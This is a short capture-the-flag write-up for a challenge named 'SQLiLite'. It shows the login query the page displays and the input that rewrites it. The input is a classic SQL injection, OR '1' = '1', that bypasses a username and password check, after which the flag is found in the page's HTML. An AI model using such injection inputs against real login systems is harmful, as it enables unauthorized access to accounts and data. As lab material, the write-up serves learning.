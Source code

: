 # SQLiLite

Submitting some username and password displays the query being executed:

```sql
SELECT * FROM users WHERE name='user' AND password='pass'
```

Enter the details so that the queriy would look like this:

```sql
SELECT * FROM users WHERE name='user' OR '1' = '1' AND password='pass' OR '1' = '1'
```

On success, inspect and view the HTML code.
